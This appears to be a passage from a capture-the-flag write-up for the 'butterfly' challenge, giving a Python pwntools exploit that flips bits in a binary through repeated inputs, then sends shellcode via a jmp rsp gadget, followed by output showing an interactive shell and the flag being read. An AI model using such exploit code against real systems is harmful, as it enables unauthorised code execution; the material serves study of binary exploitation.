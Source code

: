 ```python
padding = "\x90" * 32
adjust_rsp_instr = "\x48\x83\xEC\x60"

pop_rbx = 'A'*8
pop_r14 = 'B'*8
pop_r15 = 'C'*8
pop_rbp = 'D'*8

cosmic_ray_0 = str(((rsp_adjust_addr << 3) | 6)) + pop_rbx + pop_r14 + pop_r15 + pop_rbp + pack('<Q', function_start_addr)
cosmic_ray_1 = str(((jmp_rax_addr << 3) | 2)) + pop_rbx + pop_r14 + pop_r15 + pop_rbp + pack('<Q', function_start_addr)
cosmic_ray_2 = str(((jnz_stckchk_addr << 3) | 6)) + pop_rbx + pop_r14 + pop_r15 + pop_rbp + pack('<Q', function_start_addr)
cosmic_ray_3 = str(((fgets_cnt_addr << 3) | 6)) + pop_rbx + pop_r14 + pop_r15 + pop_rbp + pack('<Q', function_start_addr)
cosmic_ray_4 = str(((mov_edx_5_addr << 3) | 1)) + pop_rbx + pop_r14 + pop_r15 + pop_rbp + pack('<Q', function_start_addr)
cosmic_ray_5 = str(((mov_r15_rbp_addr << 3) | 3)) + pop_rbx + pop_r14 + pop_r15 + pop_rbp + pack('<Q', function_start_addr)
cosmic_ray_6 = str(((scratch_addr << 3) | 1)) + pop_rbx + pop_r14 + pop_r15 + pop_rbp + pack('<Q', function_start_addr)

h = remote(host, port, timeout = None)
h.recvuntil('COSMIC RAY?\n')
h.sendline(cosmic_ray_0)
h.recvuntil('COSMIC RAY?\n')
h.sendline(cosmic_ray_1)
h.recvuntil('COSMIC RAY?\n')
h.sendline(cosmic_ray_2)
h.recvuntil('COSMIC RAY?\n')
h.sendline(cosmic_ray_3)
h.recvuntil('COSMIC RAY?\n')
h.sendline(cosmic_ray_4)
h.recvuntil('COSMIC RAY?\n')
h.sendline(cosmic_ray_5)
h.recvuntil('COSMIC RAY?\n')
h.sendline(cosmic_ray_6)
h.recvuntil('COSMIC RAY?\n')

h.sendline(str(((scratch_addr << 3) | 1)) + padding + pack('<Q', jmp_rsp) + adjust_rsp_instr + shellcode)

print h.interactive()
```

And when executed:

```bash
$ ./butterfly_sploit.py
[+] Opening connection to butterfly.pwning.xxx on port 9999: Done
[*] Switching to interactive mode
WAS IT WORTH IT???
$ id
uid=1001(problem) gid=1001(problem) groups=1001(problem)
$ ls -la
total 28
drwxr-x--- 2 root problem 4096 Apr 15 21:49 .
drwxr-xr-x 4 root root    4096 Apr 15 17:50 ..
-rwxr-xr-x 1 root root    8328 Apr 15 18:26 butterfly
-r--r----- 1 root problem   28 Apr 15 18:28 flag
-rwxr-xr-x 1 root root     219 Apr 15 21:49 wrapper
$ cat flag
PCTF{b1t_fl1ps_4r3_0P_r1t3}
```